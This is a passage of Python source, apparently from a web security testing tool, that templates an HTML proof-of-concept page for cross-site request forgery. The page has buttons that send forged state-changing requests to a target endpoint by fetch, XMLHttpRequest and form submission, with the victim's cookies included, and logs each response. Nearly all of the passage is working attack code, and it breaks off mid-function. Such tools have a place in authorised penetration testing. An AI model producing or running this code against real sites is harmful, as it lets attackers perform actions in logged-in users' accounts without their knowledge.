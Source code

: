 ```python
            <h3>Target Information</h3>
            <p><strong>Endpoint:</strong> {operation['action']}</p>
            <p><strong>Method:</strong> {operation['method']}</p>
            <p><strong>Type:</strong> AJAX Request</p>
        </div>
        
        <div>
            <button onclick="executeCSRF_Fetch()">Execute CSRF (Fetch API)</button>
            <button onclick="executeCSRF_XHR()">Execute CSRF (XMLHttpRequest)</button>
            <button onclick="executeCSRF_Form()">Execute CSRF (Form Submission)</button>
        </div>
        
        <div id="results">
            <h4>Results will appear here...</h4>
        </div>
    </div>
    
    <script>
        function logResult(method, result) {{
            const resultsDiv = document.getElementById('results');
            const timestamp = new Date().toLocaleTimeString();
            resultsDiv.innerHTML += `<p><strong>[${{timestamp}}] ${{method}}:</strong> ${{result}}</p>`;
        }}
        
        // Method 1: Fetch API
        function executeCSRF_Fetch() {{
            fetch('{operation["action"]}', {{
                method: '{operation["method"]}',
                credentials: 'include',
                headers: {{
                    'Content-Type': 'application/x-www-form-urlencoded'
                }},
                body: 'action=csrf_test&value=malicious_value'
            }})
            .then(response => {{
                logResult('Fetch API', `Status: ${{response.status}} - ${{response.statusText}}`);
                return response.text();
            }})
            .then(data => {{
                logResult('Fetch API', `Response: ${{data.substring(0, 100)}}...`);
            }})
            .catch(error => {{
                logResult('Fetch API', `Error: ${{error}}`);
            }});
        }}
        
        // Method 2: XMLHttpRequest
        function executeCSRF_XHR() {{
            const xhr = new XMLHttpRequest();
            xhr.open('{operation["method"]}', '{operation["action"]}', true);
            xhr.withCredentials = true;
            xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
            
            xhr.onreadystatechange = function() {{
                if (xhr.readyState === 4) {{
                    logResult('XMLHttpRequest', `Status: ${{xhr.status}} - Response: ${{xhr.responseText.substring(0, 100)}}...`);
                }}
            }};
            
            xhr.onerror = function() {{
                logResult('XMLHttpRequest', 'Request failed');
```